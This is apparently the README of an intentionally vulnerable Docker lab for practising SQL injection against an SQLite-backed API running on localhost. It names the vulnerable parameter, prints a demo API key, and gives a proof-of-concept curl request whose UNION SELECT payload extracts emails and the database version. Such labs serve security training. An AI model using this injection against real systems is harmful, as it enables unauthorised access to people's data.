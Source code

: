 # SQLite_SQLinjection_Docker
SQLite SQLInjection testing with Docker

### Installation

```
git clone https://github.com/Xib3rR4dAr/SQLite_SQLinjection_Docker.git
cd SQLite_SQLinjection_Docker
docker-compose up
```

### Usage

API endpoint documentation can be accessed by visiting `http://127.0.0.1:8000/docs`.  
API can be accessed interactively also from the same endpoint.

### Vulnerable System
Vulnerable Endpoint: `http://127.0.0.1:8000/api/v1/users/me/info?user_id=1`  
Vulnerable Parameter: `user_id`  
Mandatory Header name: `x-api-key`  
Mandatory Header Value: `my-secret-api-key`  

### PoC

```
curl -X 'GET' \
  'http://127.0.0.1:8000/api/v1/users/me/info?user_id=-1%27%20UNION%20SELECT%20123%2Cemail%2C3%2Csqlite_version%28%29%20FROM%20users--%20-' \
  -H 'accept: application/json' \
  -H 'x-api-key: my-secret-api-key'
```

### Screenshot

![image](https://github.com/user-attachments/assets/d472fe8c-ad91-4971-ab0d-ace98b18f047)
